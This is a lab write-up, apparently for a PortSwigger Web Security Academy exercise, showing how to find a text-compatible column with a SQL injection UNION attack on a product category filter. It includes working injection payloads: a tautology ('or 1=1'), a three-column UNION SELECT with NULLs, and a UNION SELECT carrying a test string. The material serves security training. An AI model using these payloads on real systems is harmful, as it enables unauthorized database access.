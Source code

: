 

# SQL injection UNION attack, finding a column containing text

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:


<img width="1301" height="722" alt="1" src="https://github.com/user-attachments/assets/4f7b3f18-44aa-40d5-ab52-9c518c414a92" />



We find these payload are valid to display the 4 items in Pets and all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```


<img width="1526" height="784" alt="2" src="https://github.com/user-attachments/assets/d1f6a2a7-5012-44c1-b43b-f4b1801eff18" />


Also, that there are 3 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Pets'+union+all+select+NULL,NULL,NULL--
```


<img width="1522" height="807" alt="3" src="https://github.com/user-attachments/assets/a77d6d12-b21a-43db-9059-0b88ecf4a35d" />


We can print the string Qrc0Pq setting this string in the second value of the attack:

```
/filter?category=Pets'+union+all+select+'0','Qrc0Pq','123'--
```


<img width="1517" height="800" alt="4" src="https://github.com/user-attachments/assets/d5c0dd5c-9558-4db3-9d6d-413c70553ed5" />

